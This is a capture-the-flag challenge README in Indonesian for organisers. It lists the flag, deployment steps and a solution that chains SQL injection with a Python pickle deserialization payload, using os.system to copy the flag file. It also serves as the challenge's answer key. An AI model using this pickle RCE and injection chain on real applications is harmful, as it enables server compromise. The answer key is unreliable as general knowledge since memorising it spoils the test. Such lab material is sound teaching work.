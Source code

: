 
# Web_CP_Merchandise_Medium

Author: Ismail Hakim - twang#7040

Descriptions: Konser yang ditunggu-tunggu hampir tiba. So we pickled everything into the shop !

# Untuk Panitia

Flag: FindITCTF{rC3_Deser1al_1z4t10n}

Deployment steps: 

```python
cd web_cp_merchandise
./dockerbuild.sh
```

Solving steps:

1. Peserta menemukan SQL injection pada web/view/1 dengan melakukan injeksi web/view/1`
2. Peserta mendapatkan hint dari deskripsi bahwa web menggunakan pickle. Terdapat celah Pickle RCE
3. solve.py

```python
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```

1. SQL injection: `http://web/view/' UNION SELECT '<Pickle_Payload>`
2. Flag akan dapat diakses pada pada `http://web/static/flag.txt`

# Untuk Peserta

Nama Problem:

Deskripsi singkat: : Konser yang ditunggu-tunggu hampir tiba. So we pickled everything into the shop !

Hint (jika perlu): Lokasi flag pada flag.txt
